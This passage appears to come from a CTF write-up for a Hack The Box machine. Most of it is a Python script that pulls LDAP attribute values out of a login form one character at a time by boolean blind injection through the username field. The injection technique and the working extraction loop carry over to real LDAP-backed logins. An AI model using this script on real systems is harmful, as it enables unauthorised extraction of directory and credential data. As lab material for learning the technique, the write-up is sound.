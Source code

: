 So now that I have a list of valid attributes, I can iterate through a character set using the same boolean blind technique to get the values of each attribute.

More bad python code below:
```python
#!/usr/bin/python

import re
import requests
import sys
import time
import urllib

charset = "abcdefghijklmnopqrstuvwxyz"
charset += "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
charset += "0123456789_-"

def main():	

	with open("valid_attributes.txt") as f:
		attributes = f.read().splitlines()

	for attribute in attributes:	

		ldapfield = ""

		while True:
			for c in charset:
				keep_going = False
				payload = "*)({}={}".format(attribute, ldapfield + c + "*")
				
				data = {
					"inputUsername": urllib.quote(payload),
					"inputOTP": "12345",
				}

				proxy = {"http": "http://127.0.0.1:8080"}	
				
				time.sleep(0.5)
				r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
				m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
				if m:
					try:						
						if "Cannot login" in m.group(1):
							ldapfield = ldapfield + c
							keep_going = True
							break
					except IndexError:
						print("Something weird happened")
						exit(1)
			if keep_going == False:
				# Charset rolled over, we're done here
				print("LDAP attribute {} = {}".format(attribute, ldapfield))
				ldapfield = ""
				break

if __name__== "__main__":
	main()
```
